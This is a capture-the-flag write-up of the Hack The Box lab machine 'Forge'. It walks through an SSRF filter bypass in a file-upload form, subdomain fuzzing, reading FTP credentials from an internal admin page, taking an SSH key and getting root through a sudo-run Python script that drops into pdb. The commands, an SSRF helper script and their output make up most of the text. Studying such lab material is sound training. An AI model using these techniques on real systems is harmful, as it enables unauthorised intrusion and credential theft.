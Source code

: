 ![](forge_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.111 forge.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://forge.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

http server redirect to: `forge.htb`

![](screenshots/web-page.png)

Webapp have only file upload functionality

![](screenshots/upload-page.png)

There are 2 options for file uploading.
* Local file from filesystem.
* Remote file form a url.

And uploaded file are stored in the `/uploads/` directory with random file name without any file extension. Only images get renders and all other file renders as plain text.

# Foothold

## SSRF

file upload from remote url looks interesting.
* There is a hidden parameter `remote` in url-file-upload post request contains value `1`.
* server fetching urls with python requests module, get form nc listener.

      curl -s -X 'POST' --data-binary 'url=http://127.1:21/&remote=1' 'http://forge.htb/upload'

  ![](screenshots/server-url-req.png)

* localhost is blacklisted but can be bypassed with `127.1` and this can lead to SSRF(?).
* for bad urls server through errors and that way we can do port scan on local host.
* hostname `forge.htb` is also blocked but can be bypassed by using uppercase character: `FORGE.htb`

Running Intruder to bruteforce port and found ftp server port `21`.
```bash
❯ curl -s -X 'POST' --data-binary 'url=http://127.1:21&remote=1' 'http://forge.htb/upload' | grep '<strong>'
<strong>An error occured! Error : ('Connection aborted.', BadStatusLine("220 Forge's internal ftp server\r\n"))</strong>
```

but `ftp://` protocol is not allowed from url parameter.
```bash
❯ curl -s -X 'POST' --data-binary 'url=ftp://127.1:21&remote=1' 'http://forge.htb/upload' | grep '<strong>'
<strong>Invalid protocol! Supported protocols: http, https</strong>
```

still nothing can do with information.

Fuzzing for subdomain, found `admin.forge.htb`.
```bash
❯ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -H "Host: FUZZ.forge.htb" -u http://10.10.11.111 -ac -v -c

# ... [snip] ...

[Status: 200, Size: 27, Words: 4, Lines: 2, Duration: 617ms]
| URL | http://10.10.11.111
    * FUZZ: admin
```

But admin only accessible from localhost
```bash
❯ curl -s http://admin.forge.htb
Only localhost is allowed!
```

But we can access it with ssrf from `url` parameter in `/upload` and view response from uploaded file in `/uploads/` directory.

Little python script to automate file upload and read.
```py
import re
import sys
import html
import requests as r

url = 'http://forge.htb/upload'


def ssrf(ssrf_url):
    data = {'url': f'http://{ssrf_url}', 'remote': 1}
    rspn = r.post(url, data=data)
    if 'File uploaded successfully' in rspn.text:
        ssrf_rspn_file = re.findall(r'href="(.*?)"', rspn.text)[4]
        ssrf_rspn = r.get(ssrf_rspn_file)
        print(ssrf_rspn.text)
    else:
        error = re.findall(r'<strong>(.*?)</strong>', rspn.text)[0]
        print(html.unescape(error))


ssrf('127.0.0.1')
# ssrf(sys.argv[1])
```

With ssrf we Get access to admin panel.
```html
❯ python ssrf.py admin.FORGE.htb
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```

There are 2 endpoints in admin subdomain `/announcements` and `/upload`.

Got some interesting information from `/announcements`. 
```html
❯ python ssrf.py 'admin.FORGE.htb/announcements'
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```

* Ftp creds: `user:heightofsecurity123!`
* admin `/upload` allows ftp protocol.
* and file upload from admin `/upload` can be done with `/upload?u=<url>`

So we can now access to ftp server from admin `/upload` endpoint with `/upload?u=ftp://user:heightofsecurity123!@127.1:21`.

And get ftp share.
```bash
❯ python ssrf.py 'admin.FORGE.htb/upload?u=ftp://user:heightofsecurity123!@127.1:21'
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Sep 23 04:17 user.txt
```

This is an user's home directory. Try to get ssh key

![](screenshots/user-ssh.png)

Get "User" shell on the box with ssh key.

# Privesc

## Python pdb Module

User have some sudo rights
```bash
user@forge:~$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```

This script have 2 interesting things

![](screenshots/python-pdb.png)

One is a password `secretadminpassword` for connecting to the socket. Another is a exception `pdb.post_mortem(e.__traceback__)`

[pdb](https://docs.python.org/3/library/pdb.html): The module pdb defines an interactive source code debugger for Python programs.

And this exception occurs if socket quit unintended way.

Run script with sudo and connect to the socket from another terminal, Enter password then `Ctrl+c`, This will drop script to pdb shell where we can run system command with python `os` module as root.

![](screenshots/rooted.png)
